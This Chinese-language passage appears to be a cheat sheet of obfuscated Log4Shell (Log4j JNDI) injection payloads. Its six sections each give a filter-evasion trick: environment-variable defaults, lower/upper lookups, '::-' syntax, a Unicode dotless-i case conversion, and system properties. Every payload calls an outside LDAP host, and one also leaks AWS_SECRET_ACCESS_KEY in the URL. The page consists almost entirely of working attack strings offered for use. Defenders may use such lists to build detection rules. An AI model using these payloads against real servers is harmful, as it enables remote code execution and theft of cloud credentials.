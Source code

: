 ```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
```

来自 Apache Log4j 2 文档：`${env:ENV_NAME:-default_value}`

如果没有 ENV_NAME 系统环境变量，请在后面使用文本：`-`

`攻击者可以使用任何名称代替 ENV_NAME，但它必须不存在。`

或者黑客可以读取环境变量，例如 AWS_SECRET_ACCESS_KEY：

```
${jndi:ldap://somesitehackerofhell.com/z?leak=${env:AWS_SECRET_ACCESS_KEY:-NO_EXISTS}}
```

更多秘密环境变量:https://github.com/OneBitSec/awesome-list-of-secrets-in-environment-variables



#### 2.Lower | Upper大小写绕过

```
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
```

`${lower:<text>}`会将目标转换为小写

`${upper:<text>}`会将目标转换为大写



#### 3. "::-"符号

```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::- a}${::-p}://somesitehackerofhell.com/z}
```



#### 4.无效的Unicode字符与大写

```
${jnd${upper:ı}:ldap://somesitehackerofhell.com/z}
```

无效的Unicode字符`ı` 将转换为字母`i` (toUpperCase转换)



#### 5.系统属性

```
${jnd${sys:SYS_NAME:-i}:ldap:/somesitehackerofhell.com/z}
```

如果没有 SYS_NAME 系统属性，请使用以下文本：-

#### 6. ":-"符号

```
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://somesitehackerofhell.com/z}
```
